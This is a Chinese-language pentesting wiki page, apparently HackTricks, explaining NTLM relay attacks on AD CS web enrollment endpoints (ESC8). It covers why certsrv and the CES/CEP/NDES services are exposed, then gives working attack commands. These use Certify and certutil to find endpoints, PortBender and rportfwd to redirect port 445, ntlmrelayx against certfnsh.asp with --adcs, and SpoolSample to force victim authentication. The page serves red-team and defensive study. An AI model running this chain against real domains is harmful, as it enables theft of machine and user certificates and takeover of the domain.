 ### 解释

> [!TIP]
> 在 **安装了 AD CS** 的环境中，如果存在 **易受攻击的 web 注册端点**，并且至少发布了一个 **允许域计算机注册和客户端身份验证的证书模板**（例如默认的 **`Machine`** 模板），那么 **任何具有活动的打印服务的计算机都可能被攻击者攻陷**！

AD CS 支持几种 **基于 HTTP 的注册方法**，这些方法通过管理员可能安装的附加服务器角色提供。这些用于基于 HTTP 的证书注册的接口易受 **NTLM 中继攻击**。攻击者可以从 **被攻陷的机器上，冒充任何通过入站 NTLM 进行身份验证的 AD 账户**。在冒充受害者账户时，这些 web 接口可以被攻击者访问，以 **请求使用 `User` 或 `Machine` 证书模板的客户端身份验证证书**。

- **web 注册接口**（一个较旧的 ASP 应用程序，位于 `http://<caserver>/certsrv/`），默认仅支持 HTTP，这并不提供对 NTLM 中继攻击的保护。此外，它明确只允许通过其授权 HTTP 头进行 NTLM 身份验证，使得更安全的身份验证方法如 Kerberos 无法适用。
- **证书注册服务**（CES）、**证书注册政策**（CEP）Web 服务和 **网络设备注册服务**（NDES）默认通过其授权 HTTP 头支持协商身份验证。协商身份验证 **同时支持** Kerberos 和 **NTLM**，允许攻击者在中继攻击期间 **降级到 NTLM** 身份验证。尽管这些 web 服务默认启用 HTTPS，但仅靠 HTTPS **并不能保护免受 NTLM 中继攻击**。对于 HTTPS 服务，只有在 HTTPS 与通道绑定结合时，才能防止 NTLM 中继攻击。不幸的是，AD CS 在 IIS 上未激活身份验证的扩展保护，这是通道绑定所需的。

NTLM 中继攻击的一个常见 **问题** 是 **NTLM 会话的持续时间短**，攻击者无法与 **要求 NTLM 签名** 的服务进行交互。

然而，这一限制通过利用 NTLM 中继攻击获取用户证书来克服，因为证书的有效期决定了会话的持续时间，并且该证书可以与 **要求 NTLM 签名** 的服务一起使用。有关如何使用被盗证书的说明，请参见：

{{#ref}}
account-persistence.md
{{#endref}}

NTLM 中继攻击的另一个限制是 **攻击者控制的机器必须由受害者账户进行身份验证**。攻击者可以选择等待或尝试 **强制** 进行此身份验证：

{{#ref}}
../printers-spooler-service-abuse.md
{{#endref}}

### **滥用**

[**Certify**](https://github.com/GhostPack/Certify) 的 `cas` 枚举 **启用的 HTTP AD CS 端点**：
```
Certify.exe cas
```
<figure><img src="../../../images/image (72).png" alt=""><figcaption></figcaption></figure>

`msPKI-Enrollment-Servers` 属性由企业证书颁发机构 (CAs) 用于存储证书注册服务 (CES) 端点。可以通过利用工具 **Certutil.exe** 解析和列出这些端点：
```
certutil.exe -enrollmentServerURL -config DC01.DOMAIN.LOCAL\DOMAIN-CA
```
<figure><img src="../../../images/image (757).png" alt=""><figcaption></figcaption></figure>
```bash
Import-Module PSPKI
Get-CertificationAuthority | select Name,Enroll* | Format-List *
```
<figure><img src="../../../images/image (940).png" alt=""><figcaption></figcaption></figure>

#### 利用 Certify
```bash
## In the victim machine
# Prepare to send traffic to the compromised machine 445 port to 445 in the attackers machine
PortBender redirect 445 8445
rportfwd 8445 127.0.0.1 445
# Prepare a proxy that the attacker can use
socks 1080

## In the attackers
proxychains ntlmrelayx.py -t http://<AC Server IP>/certsrv/certfnsh.asp -smb2support --adcs --no-http-server

# Force authentication from victim to compromised machine with port forwards
execute-assembly C:\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe <victim> <compromised>
```
